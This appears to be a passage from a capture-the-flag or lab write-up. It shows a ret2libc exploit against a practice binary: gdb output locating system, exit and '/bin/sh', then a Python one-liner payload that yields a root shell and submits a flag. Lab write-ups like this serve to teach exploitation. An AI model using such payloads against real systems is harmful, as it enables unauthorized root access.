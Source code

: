 

<pre class="prettyprint"><code class=" hljs livecodeserver">(gdb) p <span class="hljs-keyword">system</span>
$<span class="hljs-number">1</span> = {&lt;<span class="hljs-keyword">text</span> <span class="hljs-built_in">variable</span>, no debug info&gt;} <span class="hljs-number">0xf7e4c840</span> &lt;<span class="hljs-keyword">system</span>&gt;
(gdb) p exit
$<span class="hljs-number">2</span> = {&lt;<span class="hljs-keyword">text</span> <span class="hljs-built_in">variable</span>, no debug info&gt;} <span class="hljs-number">0xf7e407f0</span> &lt;exit&gt;
(gdb) find &amp;<span class="hljs-keyword">system</span>,+<span class="hljs-number">9999999</span>,<span class="hljs-string">"/bin/sh"</span>
<span class="hljs-number">0xf7f6ed48</span>
warning: Unable <span class="hljs-built_in">to</span> access <span class="hljs-number">16000</span> <span class="hljs-keyword">bytes</span> <span class="hljs-operator">of</span> target memory <span class="hljs-keyword">at</span> <span class="hljs-number">0xf7fc8ad0</span>, halting search.
<span class="hljs-number">1</span> pattern found.</code></pre>

<p>Craft our payload.</p>



<pre class="prettyprint"><code class=" hljs tex">user@host:/c0re<span class="hljs-formula">$ /c0re/attackme4 $</span>(python -c 'print "<span class="hljs-command">\x</span>90"*8 + "<span class="hljs-command">\x</span>40<span class="hljs-command">\xc</span>8<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\xf</span>0<span class="hljs-command">\x</span>07<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\x</span>48<span class="hljs-command">\xed</span><span class="hljs-command">\xf</span>6<span class="hljs-command">\xf</span>7"')
Alea iacta est: 20
<span class="hljs-special">#</span> whoami
root
<span class="hljs-special">#</span> ./flagpole
Submitting flag...
+ FLAG RAISED! :D</code></pre>

<p>Damn, too easy. Your instructor needs get more creative. </p>